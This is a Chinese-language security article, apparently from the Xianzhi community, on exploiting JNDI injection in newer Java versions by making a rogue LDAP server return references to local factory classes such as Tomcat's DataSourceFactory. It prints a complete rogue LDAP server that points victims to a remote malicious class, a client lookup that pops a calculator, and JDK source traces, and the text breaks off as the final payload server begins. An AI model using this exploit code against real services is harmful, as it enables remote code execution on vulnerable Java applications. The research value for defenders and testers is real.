# JNDI高版本新思路利用LDAP 打本地工厂类-先知社区

> **来源**: https://xz.aliyun.com/news/18676  
> **文章ID**: 18676

---

# JNDI高版本新思路利用LDAP 打本地工厂类

## 前言

遇到高版本java，但是目标又只能打JNDI，实战中10个jndi，8个都是这种情况，因为jdk版本限制得太死了，不过好在我们有绕过的手法

目前就两个

RMI打本地工厂类

LDAP 高版本一直以来都是打的返回反序列化数据

但是其实LDAP还是可以打本地工厂类的，像 RMI 的高版本一样的，一样可以很好的 rce，为高版本的JNDI又注入了新手法

## LDAP+JNDI 介绍

### 漏洞复现

首先我们需要熟悉利用 LDAP 协议的一个基础流程

我们看看低版本是如何利用的

可以使用 java 代码构建一个 ldap 服务

```
package JNDI_LDAP;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


public class LDAP_Server {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] argsx) {
        String[] args = new String[]{"http://127.0.0.1:8000/#Exp", "9999"};
        int port = 0;
        if (args.length < 1 || args[0].indexOf('#') < 0) {
            System.err.println(LDAP_Server.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (args.length > 1) {
            port = Integer.parseInt(args[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[0])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor(URL cb) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult(InMemoryInterceptedSearchResult result) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            } catch (Exception e1) {
                e1.printStackTrace();
            }

        }

        protected void sendResult(InMemoryInterceptedSearchResult result, String base, Entry e) throws LDAPException, MalformedURLException {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if (refPos > 0) {
                cbstring = cbstring.substring(0, refPos);
            }
            e.addAttribute("javaCodeBase", cbstring);
            e.addAttribute("objectClass", "javaNamingReference"); //$NON-NLS-1$
            e.addAttribute("javaFactory", this.codebase.getRef());
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }

    }
}
```

当然为了更方便，我们可以使用工具来起一个 ldap 的服务

然后写一个客户端

```
package JNDI_LDAP;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class LDAP_Client {
    public static void main(String[] args) throws NamingException {
        //指定RMI服务资源的标识
        String jndi_uri = "ldap://127.0.0.1:1389/Basic/Command/Y2FsYw==";
        //构建jndi上下文环境
        InitialContext initialContext = new InitialContext();
        //查找标识关联的RMI服务
        initialContext.lookup(jndi_uri);
    }
}
```

运行客户端



弹出计算器

服务端发送我们的恶意代码



### 调试分析

首先是不断的重载  
lookup:94, ldapURLContext (com.sun.jndi.url.ldap)

```
public Object lookup(String var1) throws NamingException {
    if (LdapURL.hasQueryComponents(var1)) {
        throw new InvalidNameException(var1);
    } else {
        return super.lookup(var1);
    }
}
```

lookup:205, GenericURLContext (com.sun.jndi.toolkit.url)

```
public Object lookup(String var1) throws NamingException {
    ResolveResult var2 = this.getRootURLContext(var1, this.myEnv);
    Context var3 = (Context)var2.getResolvedObj();

    Object var4;
    try {
        var4 = var3.lookup(var2.getRemainingName());
    } finally {
        var3.close();
    }

    return var4;
}
```

lookup:177, PartialCompositeContext (com.sun.jndi.toolkit.ctx)

进入 p\_lookup 方法

```
public Object lookup(Name var1) throws NamingException {
    PartialCompositeContext var2 = this;
    Hashtable var3 = this.p_getEnvironment();
    Continuation var4 = new Continuation(var1, var3);
    Name var6 = var1;

    Object var5;
    try {
        for(var5 = var2.p_lookup(var6, var4); var4.isContinue(); var5 = var2.p_lookup(var6, var4)) {
            var6 = var4.getRemainingName();
            var2 = getPCContext(var4);
        }
    } catch (CannotProceedException var9) {
        Context var8 = NamingManager.getContinuationContext(var9);
        var5 = var8.lookup(var9.getRemainingName());
    }

    return var5;
}
```



p\_lookup:542, ComponentContext (com.sun.jndi.toolkit.ctx)

这里会进入进入 c\_lookup

```
protected Object p_lookup(Name var1, Continuation var2) throws NamingException {
    Object var3 = null;
    HeadTail var4 = this.p_resolveIntermediate(var1, var2);
    switch (var4.getStatus()) {
        case 2:
            var3 = this.c_lookup(var4.getHead(), var2);
            if (var3 instanceof LinkRef) {
                var2.setContinue(var3, var4.getHead(), this);
                var3 = null;
            }
            break;
        case 3:
            var3 = this.c_lookup_nns(var4.getHead(), var2);
            if (var3 instanceof LinkRef) {
                var2.setContinue(var3, var4.getHead(), this);
                var3 = null;
            }
    }

    return var3;
}
```



进入 getObjectInstance 方法



解析我们的远程引用对象

将 ref传入 getObjectFactoryFromReference 方法来获取工厂对象  


```
static ObjectFactory getObjectFactoryFromReference(
    Reference ref, String factoryName)
    throws IllegalAccessException,
    InstantiationException,
    MalformedURLException {
    Class<?> clas = null;

    // Try to use current class loader
    try {
         clas = helper.loadClass(factoryName);
    } catch (ClassNotFoundException e) {
        // ignore and continue
        // e.printStackTrace();
    }
    // All other exceptions are passed up.

    // Not in class path; try to use codebase
    String codebase;
    if (clas == null &&
            (codebase = ref.getFactoryClassLocation()) != null) {
        try {
            clas = helper.loadClass(factoryName, codebase);
        } catch (ClassNotFoundException e) {
        }
    }

    return (clas != null) ? (ObjectFactory) clas.newInstance() : null;
}
```

先从本地 classpath 寻找，如果没有就会从远程加载 class

  
获取远程地址，调用 loadclass 开始加载

而我们的远程 class 存放的是恶意 class，导致了 rce

## 高版本绕过

我们将不能再加载远程类，这时我们又该如何利用呢

在关键步骤中

```
return DirectoryManager.getObjectInstance(obj, name,
this, envprops, attrs);
```

核心的数据都是源于 obj 对象，而我们的 obj 对象如下获取的，我们跟踪 decodeObject 方法，看看是否可以破局



```
static Object decodeObject(Attributes attrs)
    throws NamingException {

    Attribute attr;

    // Get codebase, which is used in all 3 cases.
    String[] codebases = getCodebases(attrs.get(JAVA_ATTRIBUTES[CODEBASE]));
    try {
        if ((attr = attrs.get(JAVA_ATTRIBUTES[SERIALIZED_DATA])) != null) {
            if (!VersionHelper.isSerialDataAllowed()) {
                throw new NamingException("Object deserialization is not allowed");
            }
            ClassLoader cl = helper.getURLClassLoader(codebases);
            return deserializeObject((byte[])attr.get(), cl);
        } else if ((attr = attrs.get(JAVA_ATTRIBUTES[REMOTE_LOC])) != null) {
            // For backward compatibility only
            return decodeRmiObject(
                (String)attrs.get(JAVA_ATTRIBUTES[CLASSNAME]).get(),
                (String)attr.get(), codebases);
        }

        attr = attrs.get(JAVA_ATTRIBUTES[OBJECT_CLASS]);
        if (attr != null &&
            (attr.contains(JAVA_OBJECT_CLASSES[REF_OBJECT]) ||
                attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) {
            return decodeReference(attrs, codebases);
        }
        return null;
    } catch (IOException e) {
        NamingException ne = new NamingException();
        ne.setRootCause(e);
        throw ne;
    }
}
```

这里主要说打本地工厂类



一共有三种类型

而第一个就是我们的以前 ldap 返回反序列化数据的打法

看到**decodeRmiObject**

跟进这个方法

返回了一个 Reference 对象，传入的是 classname 和 addr



然后来到 c\_lookup 的

```
return DirectoryManager.getObjectInstance(obj, name,
    this, envprops, attrs);
```

跟进，其实也就是我们 jndi 的 sink 点

首先判断我们的 obj 是不是 Reference 类型，如果是就看有没有工厂类，如果没有就看有没有远程的地址，这里我们是可以控制的，所以可以打一个低版本的 jndi 注入

```
Reference ref = null;
            if (refInfo instanceof Reference) {
                ref = (Reference) refInfo;
            } else if (refInfo instanceof Referenceable) {
                ref = ((Referenceable)(refInfo)).getReference();
            }

            Object answer;

            if (ref != null) {
                String f = ref.getFactoryClassName();
                if (f != null) {
                    // if reference identifies a factory, use exclusively

                    factory = getObjectFactoryFromReference(ref, f);
                    if (factory instanceof DirObjectFactory) {
                        return ((DirObjectFactory)factory).getObjectInstance(
                            ref, name, nameCtx, environment, attrs);
                    } else if (factory != null) {
                        return factory.getObjectInstance(ref, name, nameCtx,
                                                         environment);
                    }
                    // No factory found, so return original refInfo.
                    // Will reach this point if factory class is not in
                    // class path and reference does not contain a URL for it
                    return refInfo;

                } else {
                    // if reference has no factory, check for addresses
                    // containing URLs
                    // ignore name & attrs params; not used in URL factory

                    answer = processURLAddrs(ref, name, nameCtx, environment);
                    if (answer != null) {
                        return answer;
                    }
                }
            }
```

看到**decodeReference**

这个没有!VersionHelper.isSerialDataAllowed()的限制

这里我们可以传入 Attributes attrs

可以看到依次从我们的 attrs 获取工厂类那些属性

  
然后返回我们的 Reference 对象



还是一样的来到 getObjectInstance 方法

因为我们已经传入了工厂类，就不会再次远程加载



然后接着来到工厂类的 getObjectInstance 方法

这里我们使用的是 getObjectInstance:211, DataSourceFactory (org.apache.tomcat.jdbc.pool)

```
public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
    if (obj != null && obj instanceof Reference) {
        Reference ref = (Reference)obj;
        boolean XA = false;
        boolean ok = false;
        if ("javax.sql.DataSource".equals(ref.getClassName())) {
            ok = true;
        }

        if ("javax.sql.XADataSource".equals(ref.getClassName())) {
            ok = true;
            XA = true;
        }

        if (DataSource.class.getName().equals(ref.getClassName())) {
            ok = true;
        }

        if (!ok) {
            log.warn(ref.getClassName() + " is not a valid class name/type for this JNDI factory.");
            return null;
        } else {
            Properties properties = new Properties();

            for(int i = 0; i < ALL_PROPERTIES.length; ++i) {
                String propertyName = ALL_PROPERTIES[i];
                RefAddr ra = ref.get(propertyName);
                if (ra != null) {
                    String propertyValue = ra.getContent().toString();
                    properties.setProperty(propertyName, propertyValue);
                }
            }

            return this.createDataSource(properties, nameCtx, XA);
        }
    } else {
        return null;
    }
}
```

重点在于 createDataSource 方法



```
public javax.sql.DataSource createDataSource(Properties properties, Context context, boolean XA) throws Exception {
    PoolConfiguration poolProperties = parsePoolProperties(properties);
    if (poolProperties.getDataSourceJNDI() != null && poolProperties.getDataSource() == null) {
        this.performJNDILookup(context, poolProperties);
    }

    DataSource dataSource = XA ? new XADataSource(poolProperties) : new DataSource(poolProperties);
    ((DataSource)dataSource).createPool();
    return (javax.sql.DataSource)dataSource;
}
```

在这里会进行 jdbc 的连接

重点就是在于我们的服务端的 payload 的构造了

```
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
